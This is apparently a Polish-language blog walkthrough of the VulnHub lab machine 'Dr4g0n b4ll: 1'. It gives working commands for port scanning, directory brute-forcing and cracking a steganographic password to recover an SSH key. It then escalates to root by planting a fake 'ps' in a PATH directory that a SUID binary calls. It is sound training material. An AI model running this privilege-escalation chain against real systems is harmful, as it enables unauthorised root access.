 ```yaml
---
title: "Dr4g0n b4ll: 1"
excerpt: " "
comments: true
categories:
  - Hacking
  - Walkthrough  
tags:
  - Hacking
  - Vulnhub
  - Walkthrough
  - Dr4g0nB4ll
header:
  overlay_image: /assets/images/pasek-hack.png
gallery1_2:
  - url: /assets/images/hacking/2021/07/01.jpg
    image_path: /assets/images/hacking/2021/07/01.jpg
  - url: /assets/images/hacking/2021/07/02.jpg
    image_path: /assets/images/hacking/2021/07/02.jpg
gallery3:
  - url: /assets/images/hacking/2021/07/03.png
    image_path: /assets/images/hacking/2021/07/03.png
gallery4:    
  - url: /assets/images/hacking/2021/07/04.png
    image_path: /assets/images/hacking/2021/07/04.png
gallery5:
  - url: /assets/images/hacking/2021/07/05.png
    image_path: /assets/images/hacking/2021/07/05.png
---
```

# Dr4g0n b4ll: 1
Write-up is in Polish language.

# Metainfo

|:----|:----|
|Nazwa:|Dr4g0n b4ll: 1|
|Autor:|[Mr_xmen](https://www.vulnhub.com/author/mr_xmen,777/)|
|Wypuszczony:|14.01.2021|
|Do ściągnięcia:|[Stąd](https://www.vulnhub.com/entry/dr4g0n-b4ll-1,646/) - Vulnhub|
|Poziom:|Łatwy|
|Nauczysz się:|Metasploit, Base64, Stegcracker, C|

# Wstęp
Wydany na początku stycznia 2021 [Dr4g0n b4ll: 1](https://www.vulnhub.com/entry/dr4g0n-b4ll-1,646/), jak to autorzy wspominają jest bardzo prostą maszyną, jednak w maju utknąłem na niej w połowie, ponieważ wcześniej nie miałem do czynienia ze stenografią. Jedna po zaliczeniu paru podatnych obrazów, trochę wiedzy przybyło i spróbowałem jeszcze raz. Jak zwykle, żeby wszystko działało pod XCP-NG trzeba zmodyfikować [**GRUB**a](https://kerszl.github.io/hacking/xcp-ng-i-vulnhub/). Co do poziomu, to prostota prostocie nierówna, ostatnio też bawiłem się maszyną [Hack Me Please: 1](https://www.vulnhub.com/entry/hack-me-please-1,731/), ale ona już dla mnie taka prosta nie była, jak pisał autor. Przypominała bardziej prawdziwą sytuację, niż taką upstrzoną zagadkami. W hack-me-please niestety posiłkowałem się [solucją](https://nepcodex.com/2021/08/hack-me-please-walkthrough-vulnhub/) na necie. Inny typ zadania, ale zawsze jest jakieś nowe doświadczenie. Wracając do **Dragon Ball**a, jest ciekawy trik na końcu, który nieraz się wam może przydać, ale to na końcu. :smiley:
{: .text-justify}
## Zaczynamy
Jak zwykle skanujemy porty **Nmap**em. Możemy pod **Metasploit**em, albo bez. Ja wolę użyć **Metasploit**a, bo mam potem wszystkie ip, hasła, otwarte porty w jednym miejscu. Co do **Shell**a, to niekoniecznie, czasami wolę się wbić normalnie przez **SSH**, niż potem ulepszać **Meterpreter**, ale co kto woli.
{: .text-justify}
```bash
msf6 exploit(multi/handler) > db_nmap -A -p- 172.16.1.113
...
msf6 exploit(multi/handler) > services
Services
========

host          port  proto  name  state  info
----          ----  -----  ----  -----  ----
172.16.1.113  22    tcp    ssh   open   OpenSSH 7.9p1 Debian 10+deb10u2 protocol 2.0
172.16.1.113  80    tcp    http  open   Apache httpd 2.4.38 (Debian)
```
## Co na stronie piszczy?
Otwarte są tylko 2 porty: **22** i **80**. Na Stronie **WWW** mamy zdjęcia z anime **Dragon Ball**.
{% include gallery id="gallery1_2"  %}
To tylko ozdoba. Prawdziwa przygoda zaczyna się w kodzie strony. Na samym dole jest zakodowany napis:
{: .text-justify}
{% include gallery id="gallery3"  %}
Po trzykrotnym rozkodowaniu mamy napis **DRAGON BALL**:
{: .text-justify}
```bash
# echo -n VWtaS1FsSXdPVTlKUlVwQ1ZFVjNQUT09 | base64 -d
# echo -n UkZKQlIwOU9JRUpCVEV3PQ== | base64 -d
# echo -n RFJBR09OIEJBTEw= | base64 -d
DRAGON BALL
```
Radzę pisać z przełącznikiem __-n__, teraz odkoduje tak samo, ale podczas kodowania base64 bez __-n__ wychodzą inne rzeczy, **Echo** koduje dodatkowo znak nowej linii __0x0a__.
{: .text-justify}
{: .notice--info}
Skanowanie **Gobuster**em:
```bash
# gobuster dir -u http://172.16.1.124 -w /usr/share/wordlists/dirb/common.txt
```
I mamy parę ciekawych rzeczy:
http://172.16.1.124/robots.txt
{: .text-justify}
{: .notice--info}
Ponownie dekodujemy:
{: .text-justify}
```bash
# echo -n eW91IGZpbmQgdGhlIGhpZGRlbiBkaXI=  | base64 -d
# echo -n ZVc5MUlHWnBibVFnZEdobElHaHBaR1JsYmlCa2FYST0K  | base64 -d
# echo -n eW91IGZpbmQgdGhlIGhpZGRlbiBkaXI=  | base64 -d
you find the hidden dir 
```
Jest komunikat, żeby szukać ukryty katalog:
__http://172.16.1.113/DRAGON%20BALL/Vulnhub/__
{: .text-justify}
{: .notice--info}
Poniżej zawartość:
{: .text-justify}
{% include gallery id="gallery3"  %}

http://172.16.1.113/DRAGON%20BALL/Vulnhub/login.html
{: .text-justify}
{: .notice--info}
{% include gallery id="gallery4"  %}

## Stenografia
Strona poprawnie nie działa, ale mamy login. i jest ciekawy obrazek __aj.jpg__:
{: .text-justify}
{% include gallery id="gallery5"  %}
Rozkodujmy go:
{: .text-justify}
```bash
# root@kali:/home/szikers/dr4g0n_b4ll# stegcracker aj.jpg
StegCracker 2.1.0 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2021 - Luke Paris (Paradoxis)

StegCracker has been retired following the release of StegSeek, which
will blast through the rockyou.txt wordlist within 1.9 second as opposed
to StegCracker which takes ~5 hours.

StegSeek can be found at: https://github.com/RickdeJager/stegseek

No wordlist was specified, using default rockyou.txt wordlist.
Counting lines in wordlist..
Attacking file 'aj.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: love
Tried 451 passwords
Your file has been written to: aj.jpg.out
love
```
Podglądamy co to za plik:
{: .text-justify}
```bash
# root@kali:/home/szikers/dr4g0n_b4ll# file aj.jpg.out
aj.jpg.out: OpenSSH private key
```
## Lądujemy do Shella
Mamy klucz, więc możemy się dostać do shella, spróbujmy z loginem **xmen**:
{: .text-justify}
```bash
# ssh -i id_rsa xmen@172.16.1.113
```
Poszło:
Mamy ciekawy katalog script, ale poszukajmy plików, które mają ustawiony bit suid, może się coś ciekawego znajdzie:
{: .text-justify}
```bash
# xmen@debian:~/script$ find / -perm -4000 2> /dev/null
/home/xmen/script/shell
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/umount
/usr/bin/su
/usr/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
```
Ciekawa jest zawartość: **/home/xmen/script/shell**
{: .text-justify}
```bash
# xmen@debian:~$ ls script/ -lah
total 32K
drwxr-xr-x 2 root root 4.0K Jan  4  2021 .
drwxr-xr-x 5 xmen xmen 4.0K Aug  9 07:17 ..
-rw-r--r-- 1 root root   75 Jan  4  2021 demo.c
-rwsr-xr-x 1 root root  17K Jan  4  2021 shell
```
W __demo.c__ widać krótki kod źródłowy. Program przechodzi na uprawnienia **root**a i uruchamia __ps__:
{: .text-justify}
<div class="notice--primary" markdown="1">
demo.c
```c
#include<unistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("ps");
}
```
</div>
Program **./shell** uruchamia **ps** z uprawnieniami **root**a:
```bash
# xmen@debian:~/script$ ./shell
  PID TTY          TIME CMD
  5013 pts/0    00:00:00 shell
  5014 pts/0    00:00:00 sh
  5015 pts/0    00:00:00 ps
```
Nie mamy podanej całej ścieżki do __ps__, więc możemy to wykorzystać. Stwórzmy program w katalogu domowym:
{: .text-justify}
```bash 
# file=/home/xmen/ps; touch $file && echo '/bin/bash' > $file && chmod +x $file
```
A następnie wyedytujmy zmienną **PATH**, żeby na początku szukała **ps** w naszym katalogu domowym: **PATH="/home/xmen:$(echo $PATH)"**
{: .text-justify}
```bash
# xmen@debian:~/script$ echo $PATH
/home/xmen:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
# xmen@debian:~/script$ ./shell
# root@debian:~/script# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(xmen)
```
## Słowo na koniec
I to właśnie jest przestroga, żeby bardzo uważnie pisać pliki, jeżeli chcemy dać uprawnieniami **suid**. **ps** przecież jest niegroźny, ale można zakombinować i zrobić, żeby był niebezpieczny.
{: .text-justify}
{: .notice--danger}
